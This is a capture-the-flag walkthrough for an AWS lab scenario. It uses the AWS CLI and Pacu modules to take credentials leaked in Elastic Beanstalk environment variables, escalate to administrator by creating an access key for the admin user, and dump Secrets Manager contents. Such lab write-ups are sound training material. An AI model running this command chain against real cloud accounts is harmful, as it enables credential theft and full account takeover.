 # Beanstalk Secrets Walkthrough

## Summary

In this scenario, you are provided with low-privileged AWS credentials. Your task is to enumerate Elastic Beanstalk applications and environments, discover misconfigured environment variables that leak secondary credentials, and then use these credentials to enumerate IAM permissions. By exploiting the ability to create an access key for an administrator user, you will escalate your privileges and ultimately retrieve the final flag stored in AWS Secrets Manager.

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenaaaario, you will be provided with an AWS Access Key ID and Secret Access Key for the low-privileged user. Configure your AWS CLI profile with these credentials:

```bash
aws configure --profile beanstalk
```

You will be prompted for the Access Key, Secret Key, Region, and output format. For example:

```bash
AWS Access Key ID: AKIA2HV********
AWS Secret Access Key: v+xInRa11dSj**************
Default region name: us-east-1
Default output format: json
```

Verify your access:

```bash
aws sts get-caller-identity --profile beanstalk
```

### Enumerating Elastic Beanstalk

Use Pacu to enumerate Elastic Beanstalk applications and environments:

```bash
Pacu (beanstalk:imported-beanstalk) > run elasticbeanstalk__enum --region us-east-1
```

The module will list available applications and environments. Notice the misconfigured environment where environment variables reveal secondary credentials.

### Checking Permissions with Pacu

Next, assess the permissions of the low-privileged user by enumerating available IAM actions:

```bash
Pacu (beanstalk:imported-beanstalk) > run iam__bruteforce_permissions --region us-east-1
```

Review the output to understand the limited permissions available on Elastic Beanstalk and IAM.

### Switching to the Secondary User

The Elastic Beanstalk environment stores secondary credentials in its environment variables. Use these credentials to configure a new AWS CLI profile:

```bash
aws configure --profile beanstalk2
```

Verify the secondary user’s access:

```bash
aws sts get-caller-identity --profile beanstalk2
```

### Enumerating IAM with the Secondary User

With the secondary credentials, enumerate IAM permissions:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__enum_permissions
```

This will display additional IAM permissions, including the ability to create an access key for other users.

### Privilege Escalation with CreateAccessKey

Run the privilege escalation scan in Pacu to identify exploitable methods:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --scan-only
```

Notice that the `CreateAccessKey` method is confirmed as a viable escalation vector. Now execute the method to target the administrator user:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --user-methods CreateAccessKey
```

Follow the prompts to select the admin user. Pacu will then generate a new access key for the admin user and display the credentials.

### Configuring the Admin Profile

Using the new admin credentials, set up an AWS CLI profile:

```bash
aws configure --profile admin
```

Enter the provided admin Access Key ID and Secret Access Key. Confirm access:

```bash
aws sts get-caller-identity --profile admin
```

### Retrieving the Final Flag

Finally, with admin privileges, run the secrets enumeration module to retrieve the final flag:

```bash
Pacu (beanstalk3:imported-admin) > run secrets__enum --region us-east-1
```

Check the downloaded secrets in the Pacu output directory (typically under `~/.local/share/pacu/<session>/downloads/secrets/`). For example:

```bash
cat ~/.local/share/pacu/beanstalk3/downloads/secrets/secrets_manager/secrets.txt
```

The file should contain the final flag, for example:  
`FLAG{*********************}`
